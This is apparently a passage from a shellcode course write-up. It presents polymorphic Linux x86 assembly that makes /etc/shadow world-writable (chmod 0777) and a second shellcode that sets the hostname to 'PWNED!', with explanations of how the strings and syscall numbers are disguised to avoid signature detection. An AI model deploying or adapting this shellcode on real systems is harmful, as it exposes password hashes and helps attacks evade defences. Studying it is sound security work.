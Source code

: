 	+	mov edx,0x655c5150
	+	add edx,0x12131311
	+	push edx
	+	mov edx,0x2f636873
	+	rol edx,16
	+	push edx
	+	mov dword [esp-4],0x74652f2f
	+	sub esp,4
		mov ebx,esp
	-	xor ecx,ecx
		mov cx,0x1ff
		int 0x80
		inc eax

  * instead of using the exact syscall number i moved inside the register (syscall-1 ) and then i incremented it `(0xe+1=0xf )``

  * instead of directly pushing `/etc/shadow`  i used three different methods:

    * I moved inside edx  the value `0x655c5150` and then I added `0x12131311` to it (the result is `0x776f6461` which corresponds to _woda_)

	* I moved inside edx  the value `0x2f636873` and then i left-rotated of 16 bits this value before pushing it onto the stack (`0x2f636873` become `0x68732f63` which correspond to _hs/c_)

	* Instead of directly pushing the last value (`0x74652f2f` which correspond to _te//_) onto the stack I chose to use the mov  instruction to move the value using the esp  register. Please note that while the push instruction adjust the stack pointer automatically, if we use the mov  instruction we need to manual adjust the stack pointer using sub esp,4

* * *

The second shellcode is a `sys_sethostname("PWNED!", 6)`. The original code can be found [here](http://shell-storm.org/shellcode/files/shellcode-622.php).

The code of the polymorphic version is:
    
	global _start
	section .text
	_start:
		mov al,0x15
		add al,0x35
		mov edx,0x454e2144
		rol edx,16
		push edx
		push WORD 0x5750
		mov ebx,esp
		mov cl,6
		int 0x80
		mov al,1
		int 0x80

The differences between the original version and the polymorphic version are:

	--- orig.asm	2014-05-12 11:51:24.994828858 +0200
	+++ poly.asm	2014-05-12 11:51:10.962829805 +0200
	@@ -1,20 +1,14 @@
	global _start
	section .text
	_start:
	-	jmp    0x8048073
	-	xor    eax,eax
	-	mov    al,0x4a
	-	pop    ebx
	-	mov    cl,0x8
	-	int    0x80
	-	xor    eax,eax
	-	mov    al,0x1